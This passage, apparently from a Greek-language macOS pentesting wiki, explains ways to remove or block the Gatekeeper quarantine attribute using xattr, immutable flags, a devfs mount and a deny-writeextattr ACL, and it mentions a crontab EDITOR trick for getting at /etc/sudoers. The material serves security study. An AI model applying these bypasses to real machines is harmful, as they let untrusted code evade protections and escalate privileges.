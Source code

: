 Αν μπορείτε να κάνετε μια **διαδικασία να ανοίξει ένα αρχείο ή έναν φάκελο με υψηλά δικαιώματα**, μπορείτε να εκμεταλλευτείτε το **`crontab`** για να ανοίξετε ένα αρχείο στο `/etc/sudoers.d` με **`EDITOR=exploit.py`**, έτσι ώστε το `exploit.py` να αποκτήσει το FD στο αρχείο μέσα στο `/etc/sudoers` και να το εκμεταλλευτεί.

Για παράδειγμα: [https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## Avoid quarantine xattrs tricks

### Remove it
```bash
xattr -d com.apple.quarantine /path/to/file_or_app
```
### uchg / uchange / uimmutable flag

Αν ένα αρχείο/φάκελος έχει αυτό το αμετάβλητο χαρακτηριστικό, δεν θα είναι δυνατή η προσθήκη xattr σε αυτό.
```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd # "chflags uchange /tmp/asd" or "chflags uimmutable /tmp/asd"
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'

ls -lO /tmp/asd
# check the "uchg" in the output
```
### defvfs mount

Ένα **devfs** mount **δεν υποστηρίζει xattr**, περισσότερες πληροφορίες στο [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)
```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
### writeextattr ACL

Αυτή η ACL αποτρέπει την προσθήκη `xattrs` στο αρχείο
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
### **com.apple.acl.text xattr + AppleDouble**

